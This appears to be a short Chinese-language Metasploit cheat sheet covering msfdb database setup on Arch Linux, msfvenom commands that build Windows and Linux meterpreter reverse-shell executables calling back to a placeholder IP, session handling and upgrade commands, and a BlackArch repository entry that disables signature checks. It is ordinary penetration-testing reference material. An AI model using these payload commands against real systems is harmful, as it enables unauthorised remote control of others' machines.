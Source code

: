 # Metasploit

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息会被记录到数据库中以便后续查询.  

## Msfvenom

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[ip] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[ip]                        -f elf -o ~/payload
```

## 后渗透测试

```sh
sessions         # 列出会话, -l
sessions [id]    # 打开会话, -i
sessions -u [id] # 将 shell 升级到 meterpreter
```

## 故障排除

msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

```
[blackarch]
SigLevel = Optional TrustAll
Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
```

## 拓展

- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>

